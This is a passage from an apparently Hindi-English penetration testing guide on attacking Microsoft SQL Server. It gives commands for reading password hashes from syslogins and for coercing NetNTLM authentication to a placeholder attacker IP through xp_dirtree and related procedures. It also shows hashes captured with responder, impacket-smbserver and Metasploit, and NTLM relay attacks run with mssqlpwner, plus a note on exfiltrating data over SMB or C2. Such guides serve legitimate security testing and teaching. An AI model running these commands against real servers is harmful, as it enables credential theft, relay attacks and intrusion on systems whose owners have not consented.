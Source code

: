 - उद्धरणों का सावधानीपूर्वक उपयोग करें; लंबे/जटिल क्वेरीज़ फ़ाइल के माध्यम से या Base64‑encoded आर्गुमेंट के रूप में देना आसान होता है, जिसे batch/PowerShell stub के अंदर decoded किया जाता है।
- Exfil the CSV via SMB (e.g., copy from \\SQLHOST\C$\Windows\Temp) or compress and move through your C2.

### हैश किए हुए पासवर्ड प्राप्त करें
```bash
SELECT * FROM master.sys.syslogins;
```
### NetNTLM hash चुराएं / Relay attack

आपको authentication में उपयोग हुए hash को capture करने के लिए एक **SMB server** शुरू करना चाहिए (`impacket-smbserver` या `responder` उदाहरण के लिए)।
```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
> [!WARNING]
> आप यह जाँच सकते हैं कि कौन (apart sysadmins) इन MSSQL फ़ंक्शनों को चलाने की permissions रखता है:
>
> ```sql
> Use master;
> EXEC sp_helprotect 'xp_dirtree';
> EXEC sp_helprotect 'xp_subdirs';
> EXEC sp_helprotect 'xp_fileexist';
> ```

Using tools such as **responder** or **Inveigh** it's possible to **steal the NetNTLM hash**.\
आप इन tools का उपयोग कैसे करें देख सकते हैं:

{{#ref}}
../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}
